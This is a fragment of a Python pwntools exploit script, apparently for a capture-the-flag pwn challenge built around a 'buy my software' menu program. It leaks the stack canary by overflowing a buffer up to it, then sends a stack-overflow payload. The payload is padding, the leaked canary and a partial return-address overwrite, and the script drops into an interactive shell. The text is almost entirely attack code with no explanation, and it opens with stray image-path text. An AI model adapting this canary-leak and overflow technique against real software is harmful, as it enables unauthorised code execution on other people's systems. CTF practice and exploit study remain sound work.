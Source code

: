 ```python
	q.sendlineafter('4.hit on the head of the developer\n------------------------\n','3')
	q.sendlineafter('Confirm? y to confirm\n','y')
	q.sendafter('tell me why do want to buy my software:\n','a'*off)

	q.recvuntil('a'*off)
	leak = u64(q.recvuntil('But I think your reason is not good.\n',drop = True).ljust(8,'\x00'))
	return leak
	
q.sendlineafter('4.hit on the head of the developer\n------------------------\n','3')
q.sendlineafter('Confirm? y to confirm\n','n')
q.sendlineafter('Confirm? y to confirm\n','n')
q.sendlineafter('Confirm? y to confirm\n','n')
q.sendlineafter('Confirm? y to confirm\n','n')
q.sendlineafter('Confirm? y to confirm\n','n')
q.sendlineafter('Confirm? y to confirm\n','n')
q.sendlineafter('Confirm? y to confirm\n','y')
q.sendlineafter('tell me why do want to buy my software:\n','a'*0x8)
q.recvuntil('a'*0x8)
leak = u64(q.recv(8))

canary = leak - 0xa
print hex(canary)

q.sendlineafter('4.hit on the head of the developer\n------------------------\n','3')
q.sendlineafter('Confirm? y to confirm\n','y')
q.sendafter('tell me why do want to buy my software:\n','a'*0xc8+p64(canary)+'a'*8+'\x2c\x52')

q.interactive()
```